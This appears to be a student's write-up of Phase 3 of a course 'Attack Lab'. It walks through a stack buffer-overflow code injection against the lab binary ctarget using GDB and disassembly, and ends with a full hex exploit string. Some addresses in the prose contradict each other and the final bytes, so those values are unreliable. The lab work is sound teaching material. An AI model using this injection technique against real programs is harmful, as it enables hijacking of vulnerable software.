 # Phase 3

## Attack Lab Spec

Phase 3 also involves a code injection attack, but passing a string as argument.
Within the file ctarget there is code for functions hexmatch and touch3 having the following C
representations:
```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
  char cbuf\[110];
  /* Make position of check string unpredictable */
  char *s = cbuf + random() % 100;
  sprintf(s, "%.8x", val);
  return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
  vlevel = 3; /* Part of validation protocol */
  if (hexmatch(cookie, sval)) {
    printf("Touch3!: You called touch3(\"%s\")\n", sval);
    validate(3);
  } else {
    printf("Misfire: You called touch3(\"%s\")\n", sval);
    fail(3);
  }
  exit(0);
}
```
Your task is to get `CTARGET` to execute the code for `touch3` rather than returning to `test`. You must
make it appear to `touch3` as if you have passed a string representation of your cookie as its argument.

**Some Advice:**

• You will need to include a string representation of your cookie in your exploit string. The string should consist of the eight hexadecimal digits (ordered from most to least significant)
without a leading “0x.”  
• Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type “man ascii” on any Linux machine to see the byte representations of the characters you need.  
• Your injected code should set register %rdi to the address of this string.  
• When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where
you place the string representation of your cookie.

Among other things the following image was provided. It is also useful to note that c3 is the hex encoding for the ret instruction.
![image](https://github.com/Motik7/AttackLab-Writeup/assets/60900283/5eb247a9-f732-44bc-9ae4-75f597f749e4)

## Analysis

It's clear that we need to get to `touc32` from `getbuf`. Looking at `getbuf` in cobjectdum we see the following code:  
```
00000000004017be <getbuf>:                        
4017be:	48 83 ec 18          	sub    $0x18,%rsp     
4017c2:	48 89 e7             	mov    %rsp,%rdi      
4017c5:	e8 30 02 00 00       	callq  4019fa <Gets>  
4017ca:	b8 01 00 00 00       	mov    $0x1,%eax      
4017cf:	48 83 c4 18          	add    $0x18,%rsp     
4017d3:	c3                   	retq                
```

Looking at the code, we see the following things happen. We put 0x18 bytes of storage on the stack, and then put our stack pointer into `%rdi`. The function `Gets` is then called which we can assume
inputs whatever we enter into the stack. This pens up the opportunity for code injection. For phase 3, this is injecting our cookie as a string into `%rdi` and then calling `touch3`. Therefore, if we can inject 0x18 bytes of random values and then the address of `touch3` when `retq` attempts to return to the address pointed to by rsp, it'll be our address. Looking again through the object dumb for `touch3` we see  
`00000000004018d4 <touch3>`  
which tells us that our `touch3` function is at address 0x401800. We remember that x86-64 operates on little endian, and thus in our string the address must be formatted correctly.

However, before we can enter `touch3` we first must put our cookie as a string into register `%rdi`. To do this, we'll have to take our return address into some code that we'll write to put the cookie into `%rdi`. We can accomplish this by writing code within the 0x18 initial string bytes, and then returning within it which will begin running the code. However, we need to know where that is. To accomplish that goal, we'll use GDB on ctarget. 

### GDB Analysis

#### Finding `%rsp`

Before that, we need to know where to set certain breakpoints to be able to inspect our code well. A valuable place to put the breakpoint would be `getbuf` since ultimately it is where we do our injection, and will show us where the stack pointer `%rsp` is at any moment we choose to see. GDB allows us to simply put breakpoints at functions using `b <function_name>` so using `b getbuf` will put a breakpoint at the right spot. We then run with `r` and for now we won't include any argument. We hit the breakpoint and use `i r` to show information regarding the registers. We see that  
`rsp            0x556424c0          0x556424c0`  
which gives us a good idea of where `%rsp` is, however it's not the one that we want. At this point, we haven't decremented the stack, and while we could manually deduct 0x18 from the value we see, it's easier to run `si` and let the code do it for us. Thus, we see  
`rsp            0x556424a8          0x556424a8`  
From this, we now know where our string starts, and where we could potentially inject code. We have confirmation this does not change between runs, so we can safely continuously use this.

## Solution

Now that we have all of the information we need, we can put it all together. The plan of attack is to inject two pieces of code, a `pop rdi` and a `ret`. Referring to the info provded above, these are `5f` and `c3` respectively. We still need to pad out the rest of the 0x18 so we are now at  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00`  
Now we need to go to our injected code. From our GDB analysis, we see that the string starts at 0x556425a8. Therefore we add this in overwriting the return address of `getbuf`. Using little endian notation as is required, this yields  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55`  
However, we are still not done. Consider that `pop rdi` pops whatever `%rsp` points to and puts it into `%rdi`. The `retq` in `getbuf` will move `%rsp` past the return address we injected. We therefore need to append what we want in `%rdi` after our return address. We look in cookie.txt to see that our cookie is 0x32bf3fc2. Therefore, following little endian protocol we append it to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 c2 3f bf 32`  
This will not work. The reason for this is that ret reads 8 bytes and we have only provided 4. This will not work as intended, so we pad it out to yield  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 c2 3f bf 32`  
This also does not work but for a different reason. A string is just a pointer to a certain area of memory that contains the string. Therefore, `%rdi` needs to hold a memory address, not our actual string. To accomplish this I put the string later in the buffer and then did some hex math to figure out where it is in memory. I then converted the cookie into hex since that's what `hexmatch` wants yielding a final result of  
`5f c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 24 64 55 00 00 00 00 e0 24 64 55 00 00 00 00 d4 18 40 00 00 00 00 00 00 00 00 00 00 00 00 00 33 32 62 66 33 66 63 32 00 00 00 00`
